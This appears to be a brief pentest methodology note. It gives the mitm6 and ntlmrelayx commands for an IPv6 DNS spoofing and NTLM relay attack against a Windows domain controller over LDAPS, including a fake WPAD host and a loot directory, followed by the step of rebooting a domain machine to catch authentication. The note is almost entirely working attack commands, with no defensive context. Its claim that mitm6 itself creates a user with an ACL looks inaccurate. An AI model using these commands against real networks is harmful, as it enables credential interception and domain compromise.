 ### Tooling
1. NTLM relay
2. mitm6

### Methodology
#### Set up mitm6
```sh
mitm6 -d <domain_name>
```

#### Set up NTLM relay
```sh
ntlmrelayx.py -6 -t ldaps://<domain_controller_ip_address> -wh fakewpad.<domain_name> -l <name_of_the_loot>
```

Restart the machine in the domain and wait. This should bring information of things in the domain. 

When you login mitm6 is going to create a user for you, with its own ACL for you to use. 
